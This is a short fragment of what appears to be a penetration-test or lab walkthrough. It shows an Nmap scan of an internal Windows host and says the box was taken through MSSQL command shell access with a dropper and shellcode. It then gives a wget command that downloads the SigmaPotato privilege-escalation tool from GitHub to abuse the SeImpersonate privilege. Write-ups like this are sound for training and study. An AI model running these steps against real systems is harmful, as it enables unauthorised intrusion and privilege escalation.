 Nmap scan
```
Nmap scan report for 10.10.110.12
Host is up (0.050s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE  SERVICE VERSION
80/tcp    open   http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
443/tcp   open   https?
3391/tcp  closed savant
49443/tcp open   unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

To reiterate, we used MSSQL cmdshell combined with a dropper and shellcode to compromise this box.

Now, we need to privesc. Whoami /priv shows that we have seimpersonate
```bash
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe


```